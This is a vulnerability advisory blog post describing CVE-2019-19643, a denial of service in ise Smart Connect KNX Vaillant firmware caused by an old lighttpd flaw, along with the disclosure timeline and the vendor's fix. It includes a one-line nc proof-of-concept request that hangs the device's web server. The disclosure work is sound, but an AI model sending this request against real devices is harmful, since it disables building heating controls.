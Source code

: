 ```yaml
---
layout: post
title:  "CVE-2019-19643 ise smart connect KNX Vaillant 1.2.839 Denial of Service"
datetime: 2019-12-08 20:00:00 MET
last_modified_at: 2020-08-12 21:55:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-19643
- Author: psytester
- Title: ise smart connect KNX Vaillant 1.2.839 Denial of Service
- Vulnerability Type: CWE-400 Uncontrolled Resource Consumption
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 12.08.2020
- Updated: --
- Vendor: ise Individuelle Software und Elektronik GmbH
- Product: ise Smart Connect KNX Vaillant
- Vendor contacted: 26.11.2019
- Vendor confirmation: 05.12.2019 with possible release date mid of 2020
- Vendor patch: 2.0.607 since 10.08.2020
- Vendor Reference: --
- Affected Firmware version: 1.2.839 tested


# Background

Product overview on [vendor's website](https://www.ise.de/en/products/ise_smart_connect_KNX_Vaillant).<br>
This device connects a Vaillant heater to KNX building automation and has a TCP/IP stack for its configuration.


# Issue Description

The analysis of the underlying operating system of the ise smart connect KNX Vaillant revealed that the BusyBox version v1.27.2 from 2017 with a Buildroot 2012.11.1 is installed as embedded Linux and that other outdated software packages are also used.

Just to name a few:
```
Buildroot: 2012.11.1
BusyBox: v1.27.2 from August 2017
Linux kernel: 3.2.20 from Jun 2012
dropbear: 2012.55
OpenSSL: 1.0.1c from May 2012
lighttpd: 1.4.31
....
```

After a search for already known CVE entries, the lighttpd process proved to be susceptible because of [CVE-2012-5533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5533=CVE-2012-5533).<br>

This vulnerability can be exploited by unauthenticated attackers with access to the web interface:
~~~shell
echo -ne "GET / HTTP/1.1\r\nHost: 1.2.3.4\r\nConnection: TC,,Keep-Alive\r\n\r\n" | nc 1.2.3.4 80
~~~
After that the lighttpd is permanently in 99% CPU load and the ise smart connect KNX Vaillant does not react anymore because the resources are used up and we have a Denial of Service:
```
PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
  321     1 root     R     5548   2%  99% /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
```
Just a restart of lighttpd process seems to be not enough to fix the overload condition, a reboot is required.

There might be much more vulnerabilities, as written in my German [blog post](https://psytester.github.io/embedded_Linux_Busybox_Buildroot/) about outdated embedded Linux Busybox/Buildroot installations.

# CVE

[CVE-2019-19643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19643)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

# lighttpd fix in new ise smart connect KNX Vaillant version 2.0.607
Base software is partly updated now with
```
Buildroot: 2018.02
BusyBox: v1.27.2 still from from August 2017
Linux kernel: 3.2.98 from Jan 2018
dropbear: 2017.75
OpenSSL: 1.0.2n from Dec 2017
nginx: 1.12.2 is used instead of lighttpd
```


# Credit
All researchers.<br>
[cvedetails](https://www.cvedetails.com/) for scanning and preparing all CVEs, separated by vendor and product.<br>
me, but I simply scanned known CVEs to use them.


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
